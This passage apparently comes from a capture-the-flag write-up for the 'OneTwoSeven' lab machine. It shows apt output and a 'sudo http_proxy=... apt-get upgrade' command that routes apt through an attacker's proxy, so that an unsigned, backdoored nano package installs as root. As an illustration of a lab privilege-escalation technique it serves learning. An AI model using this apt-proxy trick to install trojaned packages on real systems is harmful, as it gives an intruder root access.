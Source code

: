 ```
Err:10 http://de.deb.devuan.org/merged ascii-updates Release
  404  File not found
Reading package lists... Done
W: The repository 'http://packages.onetwoseven.htb/devuan ascii Release' is not signed.
N: Data from such a repository can't be authenticated and is therefore potentially dangerous to use.
N: See apt-secure(8) manpage for repository creation and user configuration details.
E: The repository 'http://de.deb.devuan.org/merged ascii Release' does no longer have a Release file.
N: Updating from such a repository can't be done securely, and is therefore disabled by default.
N: See apt-secure(8) manpage for repository creation and user configuration details.
E: The repository 'http://de.deb.devuan.org/merged ascii-security Release' does no longer have a Release file.
N: Updating from such a repository can't be done securely, and is therefore disabled by default.
N: See apt-secure(8) manpage for repository creation and user configuration details.
E: The repository 'http://de.deb.devuan.org/merged ascii-updates Release' does no longer have a Release file.
N: Updating from such a repository can't be done securely, and is therefore disabled by default.
N: See apt-secure(8) manpage for repository creation and user configuration details.
```

```
www-admin-data@onetwoseven:/$ sudo http_proxy=http://10.10.14.23:8080 apt-get upgrade
Reading package lists... Done
Building dependency tree
Reading state information... Done
Calculating upgrade... Done
The following packages will be upgraded:
  nano
1 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Need to get 485 kB of archives.
After this operation, 0 B of additional disk space will be used.
Do you want to continue? [Y/n] y
WARNING: The following packages cannot be authenticated!
  nano
Install these packages without verification? [y/N] y
Get:1 http://packages.onetwoseven.htb/devuan ascii/main amd64 nano amd64 3.0.0 [485 kB]
Fetched 485 kB in 0s (4372 kB/s)
Reading changelogs... Done
debconf: unable to initialize frontend: Dialog
debconf: (Dialog frontend will not work on a dumb terminal, an emacs shell buffer, or without a controlling terminal.)
debconf: falling back to frontend: Readline
(Reading database ... 33940 files and directories currently installed.)
Preparing to unpack .../archives/nano_3.0.0_amd64.deb ...
Unpacking nano (3.0.0) over (2.7.4-1) ...
Setting up nano (3.0.0) ...
Processing triggers for man-db (2.7.6.1-2) ...
```

File has been installed, I can see the backdoored script file:
